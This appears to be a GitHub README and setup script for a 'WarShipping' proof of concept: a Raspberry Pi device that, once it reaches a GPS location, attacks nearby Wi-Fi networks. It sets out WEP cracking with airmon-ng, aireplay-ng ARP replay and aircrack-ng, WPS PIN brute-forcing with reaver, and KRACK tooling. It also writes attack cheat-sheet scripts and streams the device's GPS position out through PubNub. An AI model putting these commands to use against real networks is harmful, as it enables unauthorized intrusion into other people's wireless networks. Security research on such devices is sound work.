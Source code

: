# WarShipping
WarShipping remixed as a proof of concept.

WEP cracking using airmon-ng
- iwconfig
- airmon-ng start <wireless card>
- airodump-ng <mon card>
- airodump-ng <mon card> --bssid <bssid> -w <write to file> file
(if theres not enough traffic to crack the password)
on another tab:
- aireplay-ng -3 -b <bssid> -h <host connected to network> <mon card>
(cracking the password)
- aircrack-ng <file>.cap

Test 0 (Manual attack)
- manual testing worked, arp poisoning aided but not required with active network.
- one terminal window required unless arp poisoning required.

Test 1 (Automation attempt)
- airodump-ng <mon card> -w <write to> file
- file .csv contains wireless points caught in monitor mode
- cat *.csv | grep -i wep | cut -d ',' -f 1
  - above bash oneliner isolates the bssid of each access point
  
WPA2 (KRACK attack)
- https://github.com/vanhoefm/krackattacks-scripts
- script above is for testing krack attack vulnerability instead of attacking the Wi-Fi security.

When GPS location has been reached the device will instead of attacking all networks will scan them for vulnerabilities.
https://www.youtube.com/watch?v=N8fH0nc9v9Q
https://sparklers-the-makers.github.io/blog/robotics/use-neo-6m-module-with-raspberry-pi/

Warshipping device proof of concept

clear
echo "-- UPDATING SYSTEM PLEASE WAIT"
apt-get update
apt-get dist-upgrade -y
clear

# echo "-- INSTALLING DEPENDENCIES"
apt-get install aircrack-ng
apt-get install libnl-3-dev
apt-get install libnl-genl-3-dev
apt-get install pkg-config
apt-get install libssl-dev
apt-get install net-tools
apt-get install git
apt-get install sysfsutils
apt-get install python-scapy
apt-get install python-pycryptodome
apt-get install virtualenv
apt-get install reaver
apt-get install wash
apt-get install -y python-smbus
apt-get install -y i2c-tools
pip3 install RPI.GPIO
pip3 install adafruit-blinka
pip3 install adafruit-circuitpython-gps
pip3 install pubnub
clear

# WPS
echo "clear" > WPS.sh
echo "echo '-- WPS DECODING CHEATSHEET\n'" >> WPS.sh
echo "echo 'use wash to listen through the interface set to monitor mode'" >> WPS.sh
echo "echo 'sudo wash -i wlan0mon'" >> WPS.sh
echo "echo 'brute force the access point WPS pin'" >> WPS.sh
echo "echo 'sudo reaver -i wlan0mon -b <bssid> -vv'" >> WPS.sh
chmod +x WPS.sh

# WEP
echo "clear" > WEP.sh
echo "echo '-- WEP DECODING CHEATSHEET\n'" >> WEP.sh
echo "echo '- listen to accesspoint'" >> WEP.sh
echo "echo '- airodump-ng --bssid <bssid copied earlier> -w <capture file output filename>'" >> WEP.sh
echo "echo '- on new tab packet injection'" >> WEP.sh
echo "echo '- aireplay-ng -3 <arpReplay> -b <bssid copied earlier> -h <device caught on airodump-ng output>'" >> WEP.sh
echo "echo '- decode capture file'" >> WEP.sh
echo "echo '- aircrack-ng *.cap'" >> WEP.sh
chmod +x WEP.sh

# WPA2 KRACK
echo "clear" > WPA2.sh
echo "echo '-- WPA2 DECODING CHEATSHEET\n'" >> WPA2.sh
echo "echo 'KRACK (Key Reinstallation attACK) scanner'" >> WPA2.sh
echo "echo 'https://www.youtube.com/watch?v=Gb8h6M22a6o'" >> WPA2.sh
echo "echo 'https://github.com/vanhoefm/krackattacks-scripts'" >> WPA2.sh
echo "echo 'cd hostapd'" >> WPA2.sh
echo "echo 'cp defconfig .config'" >> WPA2.sh
echo "echo 'make -j 2'" >> WPA2.sh
echo "sudo git clone https://github.com/vanhoefm/krackattacks-scripts" >> WPA2RepoClone.sh
chmod +x WPA2.sh
chmod +x WPA2RepoClone.sh

# GPS
echo "clear" > GPS.sh
echo "echo'-- GPS SETUP\n'" >> GPS.sh
echo "echo'raspi-config'" >> GPS.sh
echo "echo'Interfaceing Options'" >> GPS.sh
echo "echo'Serial > yes'" >> GPS.sh
echo "echo'raspi-config'" >> GPS.sh
echo "echo'Interfaceing Options'" >> GPS.sh
echo "echo'I2C > yes'" >> GPS.sh
echo "echo'raspi-config'" >> GPS.sh
echo "echo'Interfaceing Options'" >> GPS.sh
echo "echo'SPI > yes'" >> GPS.sh
echo "echo'sudo reboot'" >> GPS.sh
chmod +x GPS.sh

# BLINKYTEST.PY
echo "import board" > blinkytest.py
echo "import digitalio" >> blinkytest.py
echo "import busio\n" >> blinkytest.py
echo "print('Hello blinky!')\n\n" >> blinkytest.py
echo "# Try to great a Digital input" >> blinkytest.py
echo "pin = digitalio.DigitalInOut(board.D4)" >> blinkytest.py
echo 'print("Digital IO ok!")' >> blinkytest.py
echo "# Try to create an I2C device" >> blinkytest.py
echo "i2c = busio.I2C(board.SCL, board.SDA)" >> blinkytest.py
echo 'print("I2C ok!")' >> blinkytest.py
echo "# Try to create an SPI device" >> blinkytest.py
echo "spi = busio.SPI(board.SCLK, board.MOSI, board.MISO)" >> blinkytest.py
echo 'print("SPI ok!")' >> blinkytest.py
echo 'print("done!")' >> blinkytest.py
chmod +x blinkytest.py

# GPS TEST
echo "clear" > GPSTEST.sh
echo "echo'-- GPSTEST\nrun blinkytest.py'" >> GPSTEST.sh
echo "git clone https://github.com/adafruit/Adafruit_CircuitPython_GPS.git" >> GPSTEST.sh
echo "echo'cd Adafruit_CircuitPython_GPS'" >> GPSTEST.sh
echo "echo'examples'" >> GPSTEST.sh
echo "echo'nano gps_simpletest.py'" >> GPSTEST.sh
echo "echo'locate and comment out these linkes: \n RX = board.RX \n TX = board.TX'" >> GPSTEST.sh
echo "echo'then comment out: uart = busio.UART(TX, RX, baudrate=9600, timeout=3000)'" >> GPSTEST.sh
echo "echo'uncomment: \n \#import serial \n \#uart = serial.Serial(/dev/ttyUSB0, baudrate=9600, timeout=3000)'" >> GPSTEST.sh
echo "echo'\#uart = serial.Serial(/dev/ttyS0, baudrate=9600, timeout=3000)'" >> GPSTEST.sh
echo "echo'run the gps_simpletest.py'" >> GPSTEST.sh
chmod +x GPSTEST.sh

# TUNNEL GPS STREAM THROUGH PUBNUB
echo "import pubnub\n" > GPSSTREAM.py
echo "from pubnub.pnconfiguration import PNConfiguration" >> GPSSTREAM.py
echo "from pubnub.pubnub import PubNub" >> GPSSTREAM.py
echo "from pubnub.callbacks import SubscribeCallback" >> GPSSTREAM.py
echo "from pubnub.enums import PNOperationType, PNStatusCategory" >> GPSSTREAM.py
echo "pnconfig = PNConfiguration()" >> GPSSTREAM.py
echo 'pnconfig.subscribe_key = "YOUR SUBSCRIBE KEY"' >> GPSSTREAM.py
echo 'pnconfig.publish_key = "YOUR PUBLISH KEY"' >> GPSSTREAM.py
echo 'pnconfig.ssl = False' >> GPSSTREAM.py
echo 'pubnub = PubNub(pnconfig)' >> GPSSTREAM.py
echo 'def publish_callback(result, status):' >> GPSSTREAM.py
echo '  pass' >> GPSSTREAM.py
        # Handle PNPublishResult and PNStatus
echo 'When you want to publish multiple variables in one JSON, you must create a dictionary like so:' >> GPSSTREAM.sh
echo 'dictionary = {"DATA 1 NAME": gps.DATA1, "DATA 2 NAME": gps.DATA2}' >> GPSSTREAM.sh
echo 'So in our case we would write:' >> GPSSTREAM.sh
echo 'dictionary = {"latitude": gps.latitude, "longitude": gps.longitude}' >> GPSSTREAM.sh
echo 'And then to publish that data, you would format the dictionary like this:' >> GPSSTREAM.sh
echo 'pubnub.publish().channel("CHANNEL").message(dictionary).pn_async(publish_callback)' >> GPSSTREAM.sh
chmod +x GPSSTREAM.py
chmod +x GPSSTREAM.sh

# start up
clear
echo "-- DOCUMENTATIONS\n"
echo "- copy the bssid of chosen network before ctrl+c"
sleep 4
airmon-ng start wlan0 #change 0 to your network adapter
airodump-ng wlan0mon -W
